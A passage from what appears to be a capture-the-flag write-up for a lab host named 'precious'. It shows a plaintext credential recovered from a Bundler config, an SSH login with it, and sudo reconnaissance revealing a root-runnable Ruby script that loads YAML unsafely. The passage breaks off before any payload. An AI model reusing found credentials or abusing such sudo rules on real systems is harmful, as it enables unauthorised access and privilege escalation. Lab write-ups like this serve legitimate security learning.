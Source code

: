 Result:

```text
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

### from ruby to henry

Get a shel with `henry` user :

```shell
ssh henry@10.10.11.189
```

Result:

```text
henry@precious:~$ 
```

## Privilege Escalation : get a shell

### Host Reconnaissance

By exploring henry user rights, it appears that he can execute some commands using sudo :

```shell
sudo -l
```

Result:

```text
User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

This ruby script :

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
```